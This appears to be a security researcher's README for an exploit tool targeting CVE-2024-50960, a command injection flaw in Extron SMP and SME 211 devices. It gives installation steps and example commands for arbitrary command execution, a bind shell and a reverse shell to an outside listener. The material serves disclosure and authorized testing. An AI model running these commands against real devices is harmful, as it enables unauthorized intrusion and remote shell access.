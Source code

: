 ![alt text](https://github.com/layer8secure/extron-smp-inject/blob/main/extron_inject.png?raw=true)

# CVE-2024-50960: Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

Advisory: [CVE-2024-50960: Exploiting Extron SMP Command Injection](https://ryanmroth.com/articles/exploiting-extron-smp-command-injection)

## Overview

This tool exploits [CVE-2024-50960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-50960) — OS command injection vulnerabilities in Extron SMP devices. It allows web admins to execute arbitrary commands and spawn shells (both bind and reverse) on the underlying OS.

## April 17 Update: Additional Affected Device Identified

Further analysis has revealed that the [Extron SME 211](https://www.extron.com/product/sme211)
(firmware ≤ 3.02) is also vulnerable to CVE-2024-50960.

The advisory at the link above has been updated to reflect this finding.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-inject.git
cd extron-smp-inject
pip install -r requirements.txt
```

## Usage

To run the tool, use the following command:

```bash
python extron_smp_inject.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python extron_smp_inject.py command --password admin whoami 192.168.1.1 443
```

**Spawn a bind shell:**

```bash
python extron_smp_inject.py bind --password admin 4444 192.168.1.1 443
```

**Spawn a reverse shell:**

```bash
python extron_smp_inject.py reverse --password admin 192.168.0.1 4444 192.168.1.1 443
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.
